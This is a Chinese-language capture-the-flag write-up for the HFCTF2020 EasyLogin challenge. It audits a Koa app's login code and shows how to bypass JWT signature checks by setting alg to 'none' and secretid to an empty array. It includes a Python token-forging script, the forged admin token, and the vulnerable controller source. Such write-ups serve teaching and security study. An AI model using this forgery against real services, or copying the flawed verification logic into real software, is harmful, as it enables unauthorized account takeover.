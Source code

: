 # \[HFCTF2020]EasyLogin

## \[HFCTF2020]EasyLogin

## 考点

* koa框架代码审计
* JWT特性

## wp

F12在`/static/app.js`中看到提示koa框架，百度一下找到[koa的框架结构](https://www.cnblogs.com/wangjiahui/p/12660093.html)

尝试直接访问app.js可以得到koa项目入口

![](<../.gitbook/assets/image (20) (1) (1) (1) (1) (1).png>)

在`/static/app.js`中可以看到访问的都是api，所以这里的处理逻辑应该都是api，尝试出来代码位置是`/controllers/api.js`，代码放最后。可以看到它有一个获取token的过程

```javascript
const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization
```

在登录处抓包，可以发现登录时都会加上一个`authorization`参数

![](<../.gitbook/assets/image (15) (1) (1).png>)

去[`https://jwt.io/`](https://jwt.io/)可以看到解码后的内容

![](<../.gitbook/assets/image (18) (1) (1) (1) (1) (1).png>)

把`alg`改成`none`，JWT中当`alg`为`none`，`secret`为空时，后端将不执行签名验证。

用户名密码改成`admin`，至于`secretid`，它的处理在如下代码，先从jwt里面获取`secretid`，如果`secretid`未定义、或者是空、或者小于0、或者大于等于18(`global.secrets.length`)，就会抛出错误，下一步是到全局列表变量`global.secrets`中获取`secretid`对应的下标，再去jwt验证。

参数比较多，理一下，`secret`是一个长度18的字符串，`secretid`是一个0-18的数字，`secrets`是一个列表。

```javascript
const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;
if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
  throw new APIError('login error', 'no such secret id');
 }
const secret = global.secrets[sid];
const user = jwt.verify(token, secret, {algorithm: 'HS256'});
```

如果把`secretid`改成`[]`，让`secretid`为空列表，`secret`也会变成空，这样就绕过了jwt的验证

```python
import jwt
token = jwt.encode(
{
  "secretid": [],
  "username": "admin",
  "password": "admin",
  "iat": 1640163432
},
algorithm="none",key="")

print(token)
```

payload

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6ImFkbWluIiwiaWF0IjoxNjQwMTYzNDMyfQ.
```

![](<../.gitbook/assets/image (16) (1) (1) (1) (1).png>)

controllers/api.js

```javascript
const crypto = require('crypto');
const fs = require('fs')
const jwt = require('jsonwebtoken')

const APIError = require('../rest').APIError;

module.exports = {
    'POST /api/register': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || username === 'admin'){
            throw new APIError('register error', 'wrong username');
        }

        if(global.secrets.length > 100000) {
            global.secrets = [];
        }

        const secret = crypto.randomBytes(18).toString('hex');
        const secretid = global.secrets.length;
        global.secrets.push(secret)

        const token = jwt.sign({secretid, username, password}, secret, {algorithm: 'HS256'});

        ctx.rest({
            token: token
        });

        await next();
    },

    'POST /api/login': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || !password) {
            throw new APIError('login error', 'username or password is necessary');
        }

        const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization;

        const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;

        console.log(sid)

        if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
            throw new APIError('login error', 'no such secret id');
        }

        const secret = global.secrets[sid];

        const user = jwt.verify(token, secret, {algorithm: 'HS256'});

        const status = username === user.username && password === user.password;

        if(status) {
            ctx.session.username = username;
        }

        ctx.rest({
            status
        });

        await next();
    },

    'GET /api/flag': async (ctx, next) => {
        if(ctx.session.username !== 'admin'){
            throw new APIError('permission error', 'permission denied');
        }

        const flag = fs.readFileSync('/flag').toString();
        ctx.rest({
            flag
        });

        await next();
    },

    'GET /api/logout': async (ctx, next) => {
        ctx.session.username = null;
        ctx.rest({
            status: true
        })
        await next();
    }
};
```

## 小结

1. JWT组成
2. JWT中当`alg`为`none`，`secret`为空时，相当于不执行签名验证。
